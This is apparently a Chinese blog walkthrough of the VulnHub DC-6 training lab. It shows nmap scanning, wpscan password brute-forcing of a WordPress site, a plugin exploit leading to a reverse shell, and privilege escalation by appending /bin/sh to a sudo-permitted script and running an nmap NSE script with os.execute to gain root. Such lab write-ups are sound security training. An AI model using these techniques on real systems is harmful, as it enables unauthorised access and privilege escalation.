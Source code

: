 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC6-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-10-05
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - vulnhub
  - DC6
comment: false

typora-root-url: ..\..\..\..\.vuepress\public


---
```


## 0x01 介绍

靶机地址：

> https://www.vulnhub.com/entry/dc-6,315/

**DESCRIPTION**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:**

```
192.168.0.142 wordy
```

## 0x02 信息收集

扫描IP

```
nmap -sP 172.16.89.0/24
```

![image-20211005150145884](/assets/img/image-20211005150145884.png)

发现ip：172.16.89.7

进一步扫描

```
nmap -T5 -A -v -p- 172.16.89.7
```

结果

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-05 15:02 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating ARP Ping Scan at 15:02
Scanning 172.16.89.7 [1 port]
Completed ARP Ping Scan at 15:02, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:02
Completed Parallel DNS resolution of 1 host. at 15:02, 0.00s elapsed
Initiating SYN Stealth Scan at 15:02
Scanning 172.16.89.7 [65535 ports]
Discovered open port 22/tcp on 172.16.89.7
Discovered open port 80/tcp on 172.16.89.7
Completed SYN Stealth Scan at 15:02, 5.10s elapsed (65535 total ports)
Initiating Service scan at 15:02
Scanning 2 services on 172.16.89.7
Completed Service scan at 15:02, 6.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 172.16.89.7
NSE: Script scanning 172.16.89.7.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.65s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.03s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Nmap scan report for 172.16.89.7
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:9F:2E:8D (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Sun Mar 21 13:53:15 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 172.16.89.7

NSE: Script Post-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.14 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

修改host文件

```
echo "172.16.89.7 wordy" >> /etc/hosts
```

访问http://wordy，发现目标是wordpress搭建的网站

![image-20211005150502759](/assets/img/image-20211005150502759.png)

## 0x03 渗透

使用wps扫描网站用户

```
wpscan --url http://wordy --enumerate u
```

根据提示生成密码字典

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

使用wpscan爆破

```
wpscan --url http://wordy --passwords passwords.txt
```

爆破出一个账号：mark，密码：helpdesk01

![image-20211005162459020](/assets/img/image-20211005162459020.png)

使用爆破得到的账号登陆后，发现安装有Active Monitor插件

```
searchsploit Activity Monitor -w
```

发现存在漏洞

https://www.exploit-db.com/exploits/50110

下载利用，得到shell，在kali上回弹shell

![image-20211005162756068](/assets/img/image-20211005162756068.png)

升级shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

翻一下/home，在mark下发现graham的密码

![image-20211005163415161](/assets/img/image-20211005163415161.png)

切换用户到graham，运行sudo -l

![image-20211005164152979](/assets/img/image-20211005164152979.png)

可以使用jens权限执行sh脚本，获得jens权限

```bash
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

执行sudo -l

![image-20211005164709678](/assets/img/image-20211005164709678.png)

可以执行nmap，参考前面nmap越权方法

```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

![image-20211005164930280](/assets/img/image-20211005164930280.png)